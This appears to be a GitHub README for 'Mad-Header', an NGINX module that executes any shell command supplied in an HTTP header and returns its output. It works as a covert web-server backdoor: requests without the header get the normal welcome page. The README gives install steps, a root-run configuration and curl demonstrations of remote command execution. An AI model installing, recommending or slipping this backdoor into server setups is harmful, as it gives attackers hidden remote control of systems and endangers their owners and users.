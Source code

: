 # Mad-Header
NGINX module to allow for RCE through a specific header. 


## Installation
There is a install script provided in the repo. It will pull down NGINX and compile it with the module. Then NGINX directory will be setup in `/usr/local/nginx` (NGINX default). After this is complete simply open `/usr/local/nginx/conf/nginx/conf` and make sure the `mad_header` directive is added to the location context you wish to have the functionality in. (An example `nginx.conf` is show below)

```
user  root;
worker_processes  1;

events {
    worker_connections  1024;
}

http {
    server {
        listen       80;
        server_name  localhost;
        location / {
	    mad_header;
        }
    }
}

```

## Usage
To use the Mad Header simply supply your command as a value to the `Mad-Header` HTTP header. The output (stdout) of your command will be the response body of the command run. If there is no stdout from the command, then the response body will obviously be empty. An example or two is shown below.

```
[root@localhost Mad-Header]# curl localhost --header "Mad-Header: ls -la /tmp"
total 4
drwxrwxrwt.  8 root root 123 Nov 30 11:39 .
dr-xr-xr-x. 17 root root 224 Oct 30 14:11 ..
drwxrwxrwt.  2 root root  19 Nov 29 22:23 .ICE-unix
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .Test-unix
-r--r--r--.  1 root root  11 Nov 29 22:23 .X0-lock
drwxrwxrwt.  2 root root  16 Nov 29 22:23 .X11-unix
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .XIM-unix
drwx------.  2 root root  20 Nov 29 22:24 .esd-0
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .font-unix
[root@localhost Mad-Header]# curl localhost --header "Mad-Header: touch /tmp/hello"
curl: (52) Empty reply from server
[root@localhost Mad-Header]# curl localhost --header "Mad-Header: ls -la /tmp"
total 4
drwxrwxrwt.  8 root   root   136 Nov 30 11:39 .
dr-xr-xr-x. 17 root   root   224 Oct 30 14:11 ..
drwxrwxrwt.  2 root   root    19 Nov 29 22:23 .ICE-unix
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .Test-unix
-r--r--r--.  1 root   root    11 Nov 29 22:23 .X0-lock
drwxrwxrwt.  2 root   root    16 Nov 29 22:23 .X11-unix
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .XIM-unix
drwx------.  2 root   root    20 Nov 29 22:24 .esd-0
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .font-unix
-rw-rw-rw-.  1 nobody nobody   0 Nov 30 11:39 hello
```
If the header is not supplied (or a different location context is hit) then the server will respond to requests as normal. See below for example.
```
[root@localhost Mad-Header]# curl localhost
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>
```

## Customization
For customization the NGINX directive can be changed by altering the directive string in the `ngx_http_mad_header_commands` struct in `ngx_http_mad_header_module.c` (it is currently set to `mad_header`).

## Resources
[The foremost resource on NGINX Modules](https://www.evanmiller.org/nginx-modules-guide.html)

[A basic hello world module](https://github.com/perusio/nginx-hello-world-module/)

[The NGINX Source begins to be helpful after you loose sanity](https://github.com/nginx/nginx/)

[The NGINX API Documentation also helps](https://www.nginx.com/resources/wiki/extending/api/utility/)

[Also not a bad small guide](http://www.nginxguts.com/2011/02/http-modules/)

[This would be the guide to follow to dynamically link the module](https://www.nginx.com/blog/compiling-dynamic-modules-nginx-plus/)
